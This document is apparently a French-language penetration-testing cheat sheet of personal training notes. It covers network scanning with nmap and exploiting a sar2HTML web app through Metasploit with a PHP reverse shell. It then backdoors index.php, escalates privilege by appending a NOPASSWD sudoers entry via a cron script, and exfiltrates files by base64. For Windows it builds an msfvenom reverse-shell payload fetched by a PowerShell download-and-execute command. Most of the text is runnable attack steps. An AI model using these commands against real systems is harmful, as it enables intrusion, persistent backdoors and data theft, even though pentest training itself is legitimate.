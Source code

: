 July with JM.md


## Etapes de pentest:

1. Reconnaissance
2. Analyse de vulns
3. Exploit de vulns - initial accès
4. Post Exploit - Persistance d’accès - Mouvement latéraux - data exfiltration
6. Rapport


    nmap 10.0.0.0/24 -sn (1ere étape +discret donne les machines up)

    nmap 10.0.0.0/24 -p 22,21,23,135,80,443,3389,3306,445 -oX /tmp/a.xml -Pn --open (2eme étape vision sur les services)

    nmap 10.0.0.0/24 -p 80,443,8080,8443,3389,445 -sV --open -sC -T4 -A -oX /tmp/a.xml   (fingerprinting)

Dans metasploit:  db_import /tmp/a.xml
(services, hosts, vulns)



2. recherche de vulns

découverte http://nananana/robots.txt
on trouve http://10.0.0.103/sar2HTML/ > recherche google sar2HTMLvXXX

Exploitdb


- msf5 > use exploit/multi/script/web_delivery
- set lport 4444
- set lhost 192.168.0.18
- set uripath /rgpd/
- set target 1
- set payload php/meterpreter/reverse_tcp
- exploit

copier l'exploit dans la barre d'adresse du navigateur 
## Backdoor:
sessions 1 > meterpreter

ls
lcd /tmp
download index.php
modif de index
upload /tmp/index.php

curl http://192.168.0.13/sar2HTML/index.php?tata=id | head -n 1



changer le meterpreter en bash : python3 -c 'import pty;pty.spawn("/bin/bash")'



## élévation de droit:
- fichier /var/www/html/write.sh > download >  echo "www-data ALL= (root) NOPASSWD: /usr/bin/sudo " >>/etc/sudoers > upload
- shell > /etc/crontab > attendre 5 min
- sudo -u root sudo su

## exfiltration:

cat /tmp/a.txt |base64 > genere le base 64 du fichier > on c/c le b64
- recup windows_adrienne.rdp

# rdp Windows par payload

- forger malicious
msfvenom -p windows/x64/meterpreter/reverse_tcp LPORT=8080 LHOST=10.0.0.2 -f psh-net -o malicious.ps1
- demarrer le serveur SimpleHTTPS au même endroit
python -m SimpleHTTPServer 80

## dans metasploit:
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp (> options :lhost, lport)

## powershell:
$e=new-object net.webclient;
IEX $e.downloadstring('http://xxx.xxx.xxx.xxx/malicious.ps1')

## Metasploit:
- passe le meterpreter en backgroung
meterpreter >background
msf5 exploit(multi/handler) > search suggest
use 3
options
set session 1
run


